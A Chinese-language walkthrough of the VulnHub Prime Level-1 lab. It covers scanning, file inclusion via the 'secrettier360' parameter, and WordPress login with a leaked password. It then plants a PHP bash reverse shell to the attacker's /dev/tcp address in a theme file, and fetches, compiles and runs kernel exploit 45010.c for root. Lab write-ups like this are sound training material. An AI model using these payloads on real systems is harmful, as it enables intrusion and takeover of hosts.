靶场下载地址：https://download.vulnhub.com/prime/Prime_Series_Level-1.rar

下载解压导入到虚拟机

**环境：Windows  VMware Kali**

**连接方式： NAT**


**评级：简单**

# 1. 信息收集

**信息收集要收集完全，宁愿多用点时间，否则后面打不动的时候还要再重新收集，这样太浪费时间。我们尽可能的按照流程第一次收集全。**

## 1.1 主机发现


```shell
#查看kali IP 地址
ip a
```


```shell
# 用来主机发现 用于对指定的IP地址范围内的主机进行主机存活检测，而不进行端口扫描。-sn参数表示“ping扫描”，它使用ICMP ECHO请求（ping）或者TCP SYN扫描（默认情况下，nmap会尝试使用ICMP ECHO请求，如果失败，则尝试使用TCP SYN扫描）来检测目标主机是否存活。
 nmap -sn 192.168.125.1/24
```

## 1.2 端口扫描


```shell
# -min-rate 10000：设置扫描速率的最小值为10000个包/秒。这个参数可以加快扫描速度，太快了扫描不准，太慢了浪费时间，综合考虑选择10000。
# -p-：扫描目标主机的所有端口，包括1到65535之间的所有端口。
# 192.168.1.1：指定要扫描的目标主机的IP地址。
nmap -min-rate 10000 -p- 192.168.125.142
```

由于是局域网环境没有WAF 不用考虑网络延迟的情况，扫描速度非常快。

扫描结果：

```shell

Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-10 20:59 EDT
Nmap scan report for 192.168.125.142
Host is up (0.000074s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:E1:74:32 (VMware)
```


## 1.3 服务扫描

```shell
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-10 21:00 EDT
Nmap scan report for 192.168.125.142
Host is up (0.00044s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 00:0C:29:E1:74:32 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.76 seconds
```


## 1.4 漏洞扫描

```
nmap -script=vuln -p 22,80 192.168.125.142
```


```shell
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-10 21:02 EDT
Nmap scan report for 192.168.125.142
Host is up (0.00033s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum:
|   /wordpress/: Blog
|_  /wordpress/wp-login.php: Wordpress login page.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
MAC Address: 00:0C:29:E1:74:32 (VMware)
```


## 1.5 目录扫描

```shell
gobuster dir -u http://192.168.125.142 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```


```shell

Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.125.142
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/10 21:10:33 Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 322] [--> http://192.168.125.142/wordpress/]
/javascript           (Status: 301) [Size: 323] [--> http://192.168.125.142/javascript/]
/dev                  (Status: 200) [Size: 131]
/server-status        (Status: 403) [Size: 303]
Progress: 218428 / 220561 (99.03%)
```


访问：http://192.168.125.142




访问：http://192.168.125.142/dev




访问：http://192.168.125.142/wordpress




访问：http://192.168.125.142/javascript 




继续扫描：

```
gobuster dir -u http://192.168.125.142 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```


```shell

2023/05/10 21:18:14 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 136]
/.html                (Status: 403) [Size: 295]
/.php                 (Status: 403) [Size: 294]
/image.php            (Status: 200) [Size: 147]
/wordpress            (Status: 301) [Size: 322] [--> http://192.168.125.142/wordpress/]
/dev                  (Status: 200) [Size: 131]
/javascript           (Status: 301) [Size: 323] [--> http://192.168.125.142/javascript/]
/secret.txt           (Status: 200) [Size: 412]
/.html                (Status: 403) [Size: 295]
/.php                 (Status: 403) [Size: 294]
/server-status        (Status: 403) [Size: 303]
Progress: 878728 / 882244 (99.60%)
```


访问：http://192.168.125.142/secret.txt




通过访问https://github.com/hacknpentest/Fuzzing/blob/master/Fuzz_For_Web  获得的信息


```shell
curl http://192.168.125.142/index.php?file=location.txt
<html>
<title>HacknPentest</title>
<body>
 
</body>

Do something better <br><br><br><br><br><br>ok well Now you reah at the exact parameter <br><br>Now dig some more for next one <br>use 'secrettier360' parameter on some other php page for more fun.
</html>
```

使用 `secrettier360`   参数

```
curl http://192.168.125.142/index.php?secrettier360=location.txt
```

思路：文件包含

# 2. 漏洞探测

尝试

```
curl http://192.168.125.142/index.php?secrettier360=/etc/passwd
#使用 image这个文件才能探测到文件包含漏洞
curl  http://192.168.125.142/image.php?secrettier360=/etc/passwd
```


```html
<html>
<title>HacknPentest</title>
<body>
 </p></p></p>
</body>
finaly you got the right parameter<br><br><br><br>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
victor:x:1000:1000:victor,,,:/home/victor:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
saket:x:1001:1001:find password.txt file in my directory:/home/saket:
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
</html>
```

我们感兴趣的用户名 victor，saket


通过上述信息继续文件包含

```
curl  http://192.168.125.142/image.php?secrettier360=/home/saket/password.txt
```

结果如下：

```html
<html>
<title>HacknPentest</title>
<body>
 </p></p></p>
</body>
finaly you got the right parameter<br><br><br><br>follow_the_ippsec
```


通过获取的**用户名：** victor，saket **密码：**follow_the_ippsec登录ssh 服务失败


目前我们已经获取到了密码为 ：follow_the_ippsec ，接下来需要获取用户名，因为 网站是 wordpress 环境，常见的漏洞是用户名枚举漏洞，通过登录wordpress 后台 getshell  获取初步的权限。


## 2.1 用户名枚举：

```
sudo wpscan --url http://192.168.125.142/wordpress -e u
```





直接浏览网页也可以看到有这个用户




## 2.2 getshell

登录后台

```
192.168.125.142/wordpress/wp-login.php
```


后台地址：


wordpress 后台常见的 getshell 办法有:

1. 主题插件上传 - 上传恶意代码或后门的 wordpress 插件或主题。这是最常见的 getshell 方式。
2. XMLRPC 攻击 - XMLRPC 是 wordpress 的远程调用接口,有漏洞可利用上传后门。
3. XSS 漏洞 - 利用 wordpress 的 XSS 漏洞插入恶意 iframe 或脚本,上传后门。
4. 主题编辑器 - 某些 wordpress 主题带有在线代码编辑器,可以上传后门利用编辑器执行恶意代码。
5. 活动插件 - wordpress 的某些活动插件,如签到插件,可以上传后门。


需要注意有写入权限才可以反弹shell。


```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.125.133/4444 0>&1'");?>
```

在 secret.php 文件写入反弹shell




kali 开启监听：

```
sudo nc -lvnp 4444
```


访问 `secret.php` 文件即可 获取到 shell  

```
curl http://192.168.125.142/wordpress/wp-content/themes/twentynineteen/secret.php
```





# 3.提权

```shell
#一些常用的命令
uname -a
ifconfig 
sudo -l 
contab -l 
cat /etc/crontab
```


sudo  计划任务都无法提权


## 3.1 内核提权

kali 本地搜

Google 搜索

自动化工具辅助提权


```
 searchsploit ubuntu 4.10.0-28
```




把 45010.c 这个文件复制到一个目录里面，python 启动http服务  靶机下载文件,通过gcc 在靶机编译


为什么要在目标机器编译，为什么不能编译好在传到目标机

> 在Linux中,通过本地机器编译的C程序生成的二进制文件,无法直接在目标机器上运行的主要原因有几个:
>
> 1. 目标机器的CPU架构不同。如果本地机器是x86架构,目标机器是ARM架构,那么编译生成的二进制代码就无法在ARM机器上运行。
>
> 2. 库依赖不同。如果本地编译时链接了某些库,而目标机器上没有这些库,那么程序无法运行。
>
> 3. Linux内核版本不同。如果本地编译时使用的系统调用等依赖较新版本内核,而目标机器内核版本较低,也会出现无法运行的情况。
>
> 4. C库版本不同。如果本地编译使用的是GNU C Library(glibc)的新版本,而目标机器上的glibc版本较低,也会导致运行失败。
>
>    


kali操作：

```
python -m http.server 80
```

靶机操作：

```
cd /tmp && wget http://192.168.125.133/45010.c
```


编译：

```
gcc 45010.c -o 45010
```

运行：

```
./45010
```


提权成功：




使用python 伪终端来获得一个交互式shell 

`python -c 'import pty;pty.spawn("/bin/bash")'`

```
root@ubuntu:/root# cat root.txt
cat root.txt
b2b17036da1de94cfb024540a8e7075a
root@ubuntu:/root#
```

